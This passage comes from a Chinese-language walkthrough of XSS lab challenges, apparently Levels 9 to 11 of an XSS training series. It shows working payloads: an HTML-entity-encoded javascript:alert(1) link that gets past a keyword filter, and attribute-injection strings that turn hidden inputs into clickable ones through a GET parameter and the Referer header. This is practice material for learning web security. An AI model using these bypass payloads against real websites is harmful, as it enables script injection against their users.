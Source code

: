绕过思路

- 编码绕过关键字过滤
- 添加`//http://`，满足提交参数包含`http://`，js语句执行时`//`后的语句注释掉，以避免影响js语句执行

则XSS代码如下，即在上一关的`javascript:alert(1);`编码之后添加`//http://`

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#59;//http://
```

提交后添加友情链接，成功触发XSS语句

##### Level-10——关键字、大小写、双写无法绕过+表单`type=“hidden”`属性——

我们设法使得表单里的input标签出现onclick鼠标触发事件属性，并且由于需要鼠标点击，那么type属性也不能为hidden，当`input`标签中同时出现`type=“hidden”`和`type=“text”`两种属性时，会执行后者，因此可以添加`type=“text”`属性到`input`标签中去

原始input标签如下

```html
<input name="t_sort"  value="888" type="hidden">
```

目的input标签如下

```html
<input name="t_sort"  value="888" onclick="alert(1)" type="text" type="hidden">
```

则XSS语句如下(GET参数提交)

```html
?keyword=2222&t_sort=888" onclick="alert(1)" type="text
```

提交后点击输入框，成功触发XSS语句

##### Level-11——$_SERVER['HTTP_REFERER']参数提交拼接

`$_SERVER['HTTP_REFERER'];`提交的这个参数才会输出到一个`type="hidden"`的input标签中，且参数值不能出现尖括号

绕过思路和上一关一样，但是提交参数的位置不是GET方式，而是`$_SERVER['HTTP_REFERER'];`，因此抓包后修改数据包，在HTTP头部中的Referer属性中提交XSS语句payload

原始input标签如下

```html
<input name="t_ref"  value="" type="hidden">
```

目的input标签如下

```html
<input name="t_ref"  value="" onclick="alert(1)" type="text" type="hidden">
```

则XSS语句如下(数据包中HTTP头部属性Referer中提交)

```html
" onclick="alert(1)" type="text
```
